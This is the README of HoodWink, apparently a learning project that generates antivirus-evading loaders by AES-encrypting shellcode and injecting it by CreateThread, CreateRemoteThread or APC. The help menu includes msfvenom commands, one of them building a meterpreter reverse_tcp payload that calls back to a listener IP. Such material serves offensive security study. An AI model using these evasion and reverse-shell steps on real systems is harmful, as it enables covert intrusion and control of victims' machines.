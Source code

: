 # HoodWink
Simple AV Evasion Generator for me to learn evasion techniques

### Overview
Current
1. HoodWink will read in a file containing shellcode
2. Encrypt it with AES 256 using random key & iv and Base 64 encode
3. This is then placed into a generated source file using a given injection method (in help below) and compiled

<details>
<summary>Later versions will incorporate</summary>

More techniques
- Process Injection
- Process Hollow
- Thread Hijack
- ...

Misc
- PPID Spoofing
- BlockDlls
- Module Stomping
- ...

Do above techniques with
- both shellcode and dlls
- kernel32 and ntdll.dll (direct syscalls)
- In other languages (C++, Nim, ...)
</details>

#### Help Menu
```
Usage:
  ./HoodWink.exe msf.bin -i       # for inline
  ./HoodWink.exe msf.bin -t       # for inline: CreateThread
  ./HoodWink.exe msf.bin -r       # for remote: CreateRemoteThread via given PID
  ./HoodWink.exe msf.bin -s       # for remote: Spawn notepad.exe and Queue APC inject
  ./HoodWink.exe msf.bin -a       # makes all of the above
Payload Examples:
   msfbin: msfvenom -p windows/x64/exec -f raw CMD=calc.exe -o msf.bin
   msfbin: msfvenom -p windows/x64/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 LHOST=192.168.159.138 LPORT=8080 -f raw -o msf.bin
```

#### Usage Example
![Ex](./Images/hoodwink.png)

### Extras
<details>
<summary>Structure</summary>

HoodWink.cs - Main Program

Models/
- Module.cs - Enum for Types, Base Class for Modules, and Default Header + Footer

Modules/
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

ModuleSource/ - Source files for each Module (for Testing a technique and then porting to a Module)
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

Payloads/
- d71a2331-af9f-4397-bb34-f502c62db7f2.cs  - example generated source file
- d71a2331-af9f-4397-bb34-f502c62db7f2.exe - compiled above file

Services/
- CommandService.cs   - For suggested commands to run payload
- CompilerService.cs  - Compiles generated source
- HoodWinkService.cs - Main Service responsible for managing the full deception process
- GeneratorService.cs - Generates a source (encryption calls happen here)
- WriteService.cs

Utils/
- Crypto.cs   - AES and Encoding
- Kernel32.cs - Kernel32 API
</details>

